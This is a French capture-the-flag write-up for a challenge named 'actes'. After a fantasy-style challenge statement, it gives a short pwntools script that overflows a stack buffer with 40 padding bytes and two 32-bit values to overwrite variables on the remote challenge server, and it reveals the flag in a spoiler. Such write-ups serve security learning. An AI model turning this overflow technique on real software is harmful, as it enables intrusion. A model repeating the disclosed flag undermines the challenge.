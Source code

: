 ## Enoncé

>Dans les récits anciens, il est dit que même les plus grands guerriers de Naori ne pouvaient triompher que s'ils combinaient force et finesse. Chaque acte devait être soigneusement exécuté, car le moindre faux pas pouvait les priver de leur victoire. Pour ceux qui souhaitent véritablement accéder aux secrets ultimes de l'île, une épreuve consistant à manipuler les forces à l'intérieur des sanctuaires les attend.
>
>Après avoir traversé des forêts denses et surmonté de nombreuses épreuves, vous arrivez devant un sanctuaire oublié, caché dans les entrailles de la montagne sacrée de Naori. À l'intérieur, une inscription gravée dans la pierre vous avertit :
>
>"Les actes que tu poseras ici détermineront ton destin. Ce n'est pas la force brute qui te fera triompher, mais la précision de tes actions."
>
>Devant vous se trouve un ancien dispositif de sécurité magique, une épreuve qui teste votre capacité à manipuler des forces invisibles, représentées ici par des variables mystiques. Pour réussir, vous devrez échanger les rôles de ces forces et prouver que vous êtes digne de poursuivre votre quête.

![actes](actes)
## Résolution


Definition du payload : 
```python
#!/usr/bin/env python3
from pwn import *

exe = context.binary = ELF(args.EXE or 'actes')

p = remote("challenges.hackagou.nc", 5002)

var_2 = p32(0xbeefc0de)  
var_1 = p32(0xdeadbabe)  
payload = b'A' * 40 + var_1 + var_2  

p.recvuntil(b'\n\n')
p.sendline(payload)
p.interactive()
```


>[!question]- Spoiler du flag
> OPENNC{13_Gu3rR13r_4g17_4v3c_54g35s3_3t_Br4v0uR3...}

